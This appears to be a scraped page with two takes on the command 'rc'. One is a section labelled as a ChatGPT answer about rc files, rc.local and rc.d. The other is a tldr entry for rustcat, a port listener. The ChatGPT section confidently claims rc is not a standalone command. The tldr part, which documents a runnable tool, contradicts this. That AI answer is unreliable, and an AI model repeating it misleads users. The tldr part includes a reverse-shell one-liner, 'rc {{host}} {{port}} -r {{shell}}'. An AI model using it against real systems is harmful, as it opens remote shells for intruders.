 # rc 
## chatgpt 
The command "rc" is not a complete command on its own, as it needs to be followed by additional arguments to specify what specific "rc" command needs to be executed. 
However, "rc" is often used as shorthand for a familiar command, "run command". 

In the context of Unix/Linux operating systems, the "rc" command may refer to:

1. rc file - This is a configuration file where initialization commands are stored for various processes, shells and daemons to read and execute during startup. The common use of the "rc" file is to define environment variables, aliases, and other settings that configure the user's shell environment. Depending on the shell, the rc file could be .bashrc, .zshrc, or .tcshrc, among others.

2. rc.local - This is a startup script used to define local system settings and configurations on some Linux distributions. It is typically used to set up network interfaces, mount file systems, start services, and run scripts.

3. rc.d - This directory contains the init scripts for system services and daemons, which are responsible for starting, stopping or restarting system services when the Linux system is booted or shut down. 

In essence, running "rc" as a command in Linux or Unix may not have any effect, as it is not a standalone command. Specific arguments associated with "rc" must be provided, depending on the context in which the command is being used, for it to have any practical use. 

## tldr 
 
> A modern simplistic port listener & reverse shell.
> Similar to `nc`.
> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>.

- Start listening on a specific port:

`rc -lp {{port}}`

- Start a reverse shell:

`rc {{host}} {{port}} -r {{shell}}`
